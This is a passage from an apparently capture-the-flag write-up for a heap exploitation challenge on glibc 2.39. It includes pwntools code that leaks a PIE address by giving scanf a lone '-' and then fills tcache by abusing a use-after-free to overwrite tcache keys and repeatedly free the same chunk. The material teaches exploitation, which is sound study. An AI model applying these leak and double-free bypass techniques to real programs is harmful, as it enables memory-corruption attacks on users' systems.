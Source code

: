 If we enter "-" or "+" as the age, scanf won't write anything to the address, but it will consider it to be valid input. This way, when the age gets printed, it will give us whatever lies in there, in this case, a PIE leak:

```python
################ PIE leak ################
# secret function time
io.sendlineafter(b'> ', b'9999')
io.sendlineafter(b'enter your name: \n', b'header')
io.sendlineafter(b'enter your age: \n', b'-') # if you enter - or +, nothing gets written and scanf considers the input to be valid

io.readuntil(b'your age: ')
elf_leak = int(io.readuntil(b' ')[:-1])
elf_base = elf_leak - 0x4060

assert elf_base > 0x100000000000, 'corrupted leak'

elf.address = elf_base
```

## Fill tcache

The program uses calloc to allocate chunks:

```c
*(v3 + 2) = calloc(1uLL, v1);
```

If you take a look at what the \_\_libc_calloc function is doing in glibc 2.39, you will see that it doesn't look for chunks in tcache like \_\_libc_malloc does. Calloc directly runs \_int\_malloc (same function used by malloc, after checking tcache). In \_int\_malloc, we have the rest of the code that manages the fastbins, unsorted bins, small bins and large bins.

You can see the malloc source code for glibc 2.39 [here](https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c)

The functions you want to look at are \_\_libc_malloc, \_\_libc_calloc and \_int\_malloc.

This took me some time to figure out, and I would be very confused as to why I kept getting new allocations instead of my free chunks from tcache.

However, tcache for each thread has a limit by default, 7 chunks. After the tcache is filled, \_int\_malloc will be called which will start looking for chunks in other bins depending on your context. We can allocate chunks of 80 bytes at most, so we do not have to worry about any other bin other than fastbins.

We are also limited to 7 allocations, if we try to allocate again after having filled the pointer list, we will get "No space left" message. This can be easily bypassed. We use the UAF vulnerability to overwrite the tcache key, a random value next to the FD in free tcache chunks that is used to check if the chunk is already free. This is a mitigation for double free vulnerabilities in tcache, however useless in our case in which we have UAF. Once we have overwritten it, we free the chunk again. We do this over and over on the same chunk (using only 1 entry of the pointer list) until tcache is filled:

```python
################ Fill tcache ################
# Since calloc is used (which doesn't take chunks from the tcache directly), we need to fill the tcache to
# start using fastbins.
# Because we are limited to 7 chunks, we are going to abuse UAF to overwrite tcache keys and then
# do multiple frees on the already free'd chunks
for i in range(6):
    edit(0, b'A' * 16) # overwrite tcache key as well
    delete(0)
```
